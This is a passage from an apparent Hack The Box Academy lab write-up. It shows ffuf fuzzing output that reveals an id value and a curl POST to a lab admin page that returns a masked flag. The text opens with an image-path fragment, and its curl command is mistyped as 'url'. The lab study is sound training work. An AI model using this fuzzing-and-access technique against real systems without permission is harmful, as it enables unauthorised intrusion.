 ```terminal
 :: Filter           : Response size: 768
________________________________________________

[Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 247ms]
    * FUZZ: 73
```

From the scan results, the value of the `id` parameter is `73`. Next, we try sending a POST request with the parameters and values that have been obtained using `curl`.

```terminal
url http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded'
<div class='center'><p>HTB{*************************}</p></div>
<html>
<!DOCTYPE html>

<head>
  <title>HTB Academy</title>
  <style>
```

As a result, we succeeded in getting a `flag` on the site.

## Reference

[Hack The Box Academy. Attacking Web Applications with Ffuf](https://academy.hackthebox.com/module/54/section/484)

[Register Hack The Box Academy](https://academy.hackthebox.com/register?utm_source=invite&utm_medium=link&utm_campaign=saasquatch&rsCode=NINJAVI986069&rsShareMedium=UNKNOWN&rsEngagementMedium=UNKNOWN&_saasquatch=eyJhcHAucmVmZXJyYWxzYWFzcXVhdGNoLmNvbSI6eyJha3JvazhxcG11ajU4X0NPREUiOnsiY29kZXMiOnsiaHRiLWFjYWRlbXktcmVmZXJyYWwtcHJvZ3JhbSI6Ik5JTkpBVkk5ODYwNjkifSwiY29kZXNFeHAiOnsiTklOSkFWSTk4NjA2OSI6MTczNDQ1MTU3NH0sImxpbmtzIjp7Imh0Yi1hY2FkZW15LXJlZmVycmFsLXByb2dyYW0iOiJodHRwczovL3JlZmVycmFsLmhhY2t0aGVib3guY29tL216Mk1NVG4ifSwibGlua3NFeHAiOnsiaHR0cHM6Ly9yZWZlcnJhbC5oYWNrdGhlYm94LmNvbS9tejJNTVRuIjoxNzM0NDUxNTc0fX19fQ)